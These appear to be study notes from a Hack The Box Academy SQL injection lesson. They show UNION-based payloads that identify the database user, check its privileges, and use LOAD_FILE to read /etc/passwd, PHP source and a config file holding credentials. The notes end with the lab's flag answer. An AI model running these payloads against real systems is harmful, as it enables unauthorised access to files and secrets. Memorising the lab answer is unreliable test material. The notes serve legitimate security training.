 ﻿---
sticker: lucide//database
---
In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

---

## Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, inÂ `MySQL`, the DB user must have theÂ `FILE`Â privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

#### DB User

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

OurÂ `UNION`Â injection payload will be as follows:


```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case isÂ `root`:


![](https://academy.hackthebox.com/storage/modules/33/db_user.jpg)

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

#### User Privileges

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:


```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:


```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can addÂ `WHERE user="root"`Â to only show privileges for our current userÂ `root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/root_privs.jpg)

The query returnsÂ `Y`, which meansÂ `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:


```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can addÂ `WHERE grantee="'root'@'localhost'"`Â to only show our current userÂ `root`Â privileges. Our payload would be:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

And we see all of the possible privileges given to our current user:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/root_privs_2.jpg)

We see that theÂ `FILE`Â privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

---

## LOAD_FILE

Now that we know we have enough privileges to read local system files, let us do that using theÂ `LOAD_FILE()`Â function. TheÂ [LOAD_FILE()](https://mariadb.com/kb/en/load_file/)Â function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read theÂ `/etc/passwd`Â file:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

Note: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

Similar to how we have been using aÂ `UNION`Â injection, we can use the above query:


```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/load_file_sqli.png)

We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.

---

## Another Example

We know that the current page isÂ `search.php`. The default Apache webroot isÂ `/var/www/html`. Let us try reading the source code of the file atÂ `/var/www/html/search.php`.


```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/load_file_search.png)

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hittingÂ `[Ctrl + U]`.

![load_file_source](https://academy.hackthebox.com/storage/modules/33/load_file_source.png)

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.

# Question
---

![Pasted image 20250203143251.png](../../../../IMAGES/Pasted%20image%2020250203143251.png)

We can use this payload: 

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

Once the page has rendered, check source code using `CTRL+U`, we can then use `f3` and search for include:

![Pasted image 20250203143345.png](../../../../IMAGES/Pasted%20image%2020250203143345.png)

We can see the following, now, we can read the `config.php` file:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

We'll see the following:

![Pasted image 20250203143450.png](../../../../IMAGES/Pasted%20image%2020250203143450.png)

Answer is `dB_pAssw0rd_iS_flag!`
